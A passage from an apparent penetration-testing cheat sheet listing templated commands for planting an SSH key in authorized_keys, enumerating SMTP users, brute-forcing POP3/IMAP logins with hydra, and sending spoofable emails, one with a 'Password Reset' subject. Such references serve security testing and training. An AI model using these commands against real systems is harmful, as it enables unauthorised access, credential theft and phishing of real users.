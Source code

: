 ```
echo <<CONTENTS OF PUBLIC KEY>> > <<PATH>>/.ssh/authorized_keys
```

```
ssh -i id_rsa <<USERNAME>>@<<IP>> 
```



## Port 25 (SMTP)

### Users Enumeration

```
smtp-user-enum -U <<USERNAME_LIST>> -t <<IP>>
```

### Credentials Brute-Force

```
hydra -L <<USERNAME_LIST>> -P <<PASSWORD_LIST>> <<IP>> pop3
```

```
hydra -L <<USERNAME_LIST>> -P <<PASSWORD_LIST>> <<IP>> imap
```

### Thunderbird Client

```
thunderbird
Settings -> Account Settings -> Account Actions -> Add Mail Account
```

### Sending Email

#### swaks

```
sudo swaks -t <<TARGET_EMAIL_ADRESS>> --from <<EMAIL_ADRESS>> --attach @<<FILE>> --server <<IP>> --body @<<TEXT_FILE>> --header "Subject: Example" --suppress-data -ap
```

#### sendmail

```
sendemail -t <<TARGET_EMAIL_ADRESS>> -f <<EMAIL_ADRESS>> -s <<IP>> -u "Password Reset" -o tls=no -m <<MESSAGE>>
```



## Port 53 (DNS)

### DNS Enumeration
